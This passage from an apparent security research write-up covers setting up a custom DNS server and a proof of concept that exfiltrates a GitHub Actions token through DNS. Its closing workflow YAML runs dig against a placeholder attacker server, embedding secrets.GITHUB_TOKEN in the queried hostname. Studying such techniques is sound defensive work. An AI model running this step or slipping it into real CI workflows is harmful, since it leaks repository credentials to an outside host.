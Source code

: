 - DNS (TCP), Port 53, Source 0.0.0.0/0
- DNS (UDP), Port 53, Source 0.0.0.0/0

Now, from another machine, send a DNS query to your DNS server public IP address:

```bash
dig @<PUBLIC_IP> test.dnsx.github.com
```

Again, the DNS response should be an A record with IP 10.0.0.1.

### Using the public internet DNS resolution

Instead of specifying the custom DNS server IP address as the name server to use for the `dig` command, you can also use a real domain that you own and configure the `NS` record to point to your custom DNS server. Obviously, we won't be able to use the domain `dnsx.github.com` we've been using above, since we don't control the github.com domain, so we would need to use a domain that we own and control the DNS records. For example, if you own the `example.com` domain, you could configure the following DNS records in your domain DNS configuration (e.g. in AWS Route 53 or Cloudflare DNS):

- Add an `A` record for `ns.example.com` that resolves to your custom DNS server public IP address
- Add a `NS` record for `dnsx.example.com` with `ns.example.com` as the value

Now, from any machine, you can send a DNS query to your domain, without specifying the custom DNS server IP address, but still have it resolved by your custom DNS server:

```bash
dig test.dnsx.example.com
```

Of coursse, you would also need to modify the dnsmasq configuration and the code of the custom DNS server to respond to your domain (e.g. `dnxs.example.com` instead of `dnsx.github.com`):

## Exfiltrating Github Token via DNS

If you are familiar with Github Actions, you probably know that Github Actions workflows are running with a default Github token, which provides by default read permissions on the repository where the workflow is running, and can even have write permissions if the workflow is configured as such (or even run with Personal Access Token that a developer would have configured). Default workflow Github tokens are short-lived and will only live for the duration of the workflow.

For this proof-of-concept, we are particularly interested in private repositories. Malicious code which will exfiltrate data could be running from compromised third-party packages or Github Actions. For the purpose of this proof-of-concept, we'll assume that a private repository is running a compromised third-party action, which is configured to use the default Github token as an input, making the Github token (with repo read access) available for the code running in the action.

To simplify this proof-of-concept, we'll simply run the following workflow in the private repository that we are targeting, which will make a DNS query using `dig`:

```yml
name: DNS Exfiltration

on:
  push:

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - run: |
          repo=$(echo ${{ github.repository }}  | cut -d'/' -f2)
          dig @<PUBLIC_IP> ${{ github.repository_owner}}.$repo.${{ secrets.GITHUB_TOKEN}}.dnsx.github.com
```
